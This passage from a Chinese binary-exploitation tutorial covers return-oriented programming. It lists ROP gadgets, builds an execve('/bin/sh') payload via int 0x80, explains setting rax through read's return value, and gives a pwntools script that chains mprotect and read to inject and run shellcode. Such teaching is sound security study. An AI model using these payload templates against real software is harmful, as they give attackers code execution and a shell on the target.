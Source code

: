 ```
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

不妨选择

```
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

最后寻找到`/bin/sh`字符串的地址即可。

```
ROPgadget --binary rop  --string '/bin/sh'
```

payload，其中`int_0x80`是作为引起系统中断而是用的：

```
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
```

**如果没有类似`pop rax`或`pop eax`的 gadgets 怎么办?**

> 利用 read 函数的返回值，使得 rax 为`0x3b`

    read函数原型：

    ​ ssize_t read(int fd,void *buf,size_t count)

    函数返回值分为下面几种情况：

    1、如果读取成功，则返回实际读到的字节数。这里又有两种情况：一是如果在读完count要求字节之前已经到达文件的末尾，那么实际返回的字节数将 小于count值，但是仍然大于0；二是在读完count要求字节之前，仍然没有到达文件的末尾，这是实际返回的字节数等于要求的count值。

    2、如果读取时已经到达文件的末尾，则返回0。

    3、如果出错，则返回－1。

read 函数的系统调用号为`0x0`，所以必须先使得 rax 的值为 0.

### 3.5 修改内存执行权限

如果程序是静态链接的, 不使用 libc, 也找不到命令执行函数, 则可以设法使用`mprotect`修改内存中可读可写的地址, 令其有执行权限. 再 通过 read 函数将 shellcode 写入内存。  
可以通过 pwngdb 的`vmmap`查看内存页的权限以及地址.
paylaod 可以按如下构建

```python
# pop3_ret的作用是将之前压入栈中的参数出栈, 维持栈平衡.
# mem_addr是要修改权限的内存地址
# mem_proc应为0x7,代表rwx
payload = 'A'*0x20 + p32(mprotect_addr) + p32(pop3_ret) + p32(mem_addr) + p32(mem_size) + p32(mem_proc)
payload += p32(read_addr) + p32(pop3_ret) + p32(0) + p32(mem_addr) + p32(0x100) + p32(mem_addr)
p.send(payload)

shellcode = asm(shellcraft.sh(), arch='i386', os='linux')
p.send(shellcode)

p.interactive()
```

---